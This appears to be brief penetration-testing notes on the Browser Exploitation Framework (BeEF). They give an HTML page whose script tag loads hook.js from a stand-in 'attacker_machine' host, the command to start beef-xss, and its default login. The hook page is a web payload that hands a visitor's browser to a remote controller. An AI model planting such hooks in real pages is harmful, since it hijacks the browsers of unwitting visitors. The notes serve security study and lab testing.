

# BeeF

## Browser Exploitation Framework

### BeeF hook

```text
<html>
    <head>
    <title>
       Hello from here 
    </title>
    </head>
    <body>
        <p>hook script for BeeF</p>
        <script src="http://attacker_machine:3000/hook.js"></script>
    </body>
</html>
```

* **Start BeeF**

`beef-xss`

* Login with

`beef:beef`

View 127.0.0.1:3000/hook.js

* **target connected:** 





### Resource




